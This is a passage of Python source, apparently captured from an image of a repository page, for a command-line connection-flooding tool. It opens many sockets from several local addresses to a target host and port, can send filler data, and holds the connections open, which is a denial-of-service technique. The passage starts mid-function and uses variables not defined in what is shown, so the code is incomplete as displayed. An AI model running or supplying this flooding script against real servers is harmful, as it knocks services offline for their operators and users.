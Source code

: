 ```
    fails = 0
    cnxs = []
    for i in range(R):
        try:
            cnxs.append(__import__("socket").socket())
            cnxs[counter].bind((IP, 0))
            cnxs[counter].connect((H,P))
            if with_data != 0:
                cnxs[counter].send(b"A"*with_data)
            counter=counter+1
        except:
            fails = fails+1
            pass
    print(f"[INFO][SEP_THR] sleeping for {TS} with {len(cnxs)} open cnxs")
    __import__("time").sleep(TS)

def _help():
    print("""-he\thelp msg
-i\tinterface to use
-h\ttarget ip address
-p\ttarget port
-t\tthreads to be generated
-c\tcount of addresses to be used
-d\tamount of data to send for each cnx (defualt:0 , no data)
-n\tconnexion amount needed
-s\tsleeping time after finishing the cnx setup""")
    __import__("sys").exit(0)

def argv_parser():
    connexions, host, port, interface, threads, count, data_amount,stime = 0, None, 0, None, 1, 1, 0, 0

    args = __import__("sys").argv
    for i in range(1,len(args)):
        if (len(args) == 1) or args[i] == "-he":
            _help()
        elif args[i] == "-i":
            interface = args[i+1]
        elif args[i] == "-h":
            host = args[i+1]
        elif args[i] == "-p":
            port = args[i+1]
        elif args[i] == "-t":
            threads = args[i+1]
        elif args[i] == "-c":
            count = args[i+1]
        elif args[i] == "-d":
            data_amount = args[i+1]
        elif args[i] == "-n":
            connexions = args[i+1]
        elif args[i] == "-s":
            stime = args[i+1]
        else:
            pass
    return host,int(port),interface,int(threads),int(count),int(data_amount),int(connexions),int(stime)

HH,PP,II,TT,CC,DM,CN,TS = argv_parser()
H = HH if HH is not None else H
P = PP if PP is not None else P
tp = []

print(f"[DBG] opts:h,p,i,t,c={HH,PP,II,TT,CC}")
```
